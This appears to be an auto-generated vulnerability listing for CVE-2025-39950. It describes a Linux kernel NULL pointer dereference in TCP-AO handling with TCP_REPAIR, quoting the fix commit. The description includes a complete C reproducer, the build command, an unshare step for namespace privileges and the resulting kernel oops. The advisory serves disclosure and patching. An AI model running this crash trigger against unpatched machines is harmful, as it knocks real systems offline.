 ### [CVE-2025-39950](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-39950)
![](https://img.shields.io/static/v1?label=Product&message=Linux&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=&color=brightgreen)
![](https://img.shields.io/static/v1?label=Version&message=6.7%20&color=brightgreen)
![](https://img.shields.io/static/v1?label=Version&message=7c2ffaf21bd67f73d21560995ce17eaf5fc1d37f%20&color=brightgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=n%2Fa&color=blue)

### Description

In the Linux kernel, the following vulnerability has been resolved:net/tcp: Fix a NULL pointer dereference when using TCP-AO with TCP_REPAIRA NULL pointer dereference can occur in tcp_ao_finish_connect() during aconnect() system call on a socket with a TCP-AO key added and TCP_REPAIRenabled.The function is called with skb being NULL and attempts to dereference iton tcp_hdr(skb)->seq without a prior skb validation.Fix this by checking if skb is NULL before dereferencing it.The commentary is taken from bpf_skops_established(), which is also calledin the same flow. Unlike the function being patched,bpf_skops_established() validates the skb before dereferencing it.int main(void){	struct sockaddr_in sockaddr;	struct tcp_ao_add tcp_ao;	int sk;	int one = 1;	memset(&sockaddr,'\0',sizeof(sockaddr));	memset(&tcp_ao,'\0',sizeof(tcp_ao));	sk = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);	sockaddr.sin_family = AF_INET;	memcpy(tcp_ao.alg_name,"cmac(aes128)",12);	memcpy(tcp_ao.key,"ABCDEFGHABCDEFGH",16);	tcp_ao.keylen = 16;	memcpy(&tcp_ao.addr,&sockaddr,sizeof(sockaddr));	setsockopt(sk, IPPROTO_TCP, TCP_AO_ADD_KEY, &tcp_ao,	sizeof(tcp_ao));	setsockopt(sk, IPPROTO_TCP, TCP_REPAIR, &one, sizeof(one));	sockaddr.sin_family = AF_INET;	sockaddr.sin_port = htobe16(123);	inet_aton("127.0.0.1", &sockaddr.sin_addr);	connect(sk,(struct sockaddr *)&sockaddr,sizeof(sockaddr));return 0;}$ gcc tcp-ao-nullptr.c -o tcp-ao-nullptr -Wall$ unshare -UrnBUG: kernel NULL pointer dereference, address: 00000000000000b6PGD 1f648d067 P4D 1f648d067 PUD 1982e8067 PMD 0Oops: Oops: 0000 [#1] SMP NOPTIHardware name: VMware, Inc. VMware Virtual Platform/440BX DesktopReference Platform, BIOS 6.00 11/12/2020RIP: 0010:tcp_ao_finish_connect (net/ipv4/tcp_ao.c:1182)

### POC

#### Reference
No PoCs from references.

#### Github
- https://github.com/fkie-cad/nvd-json-data-feeds

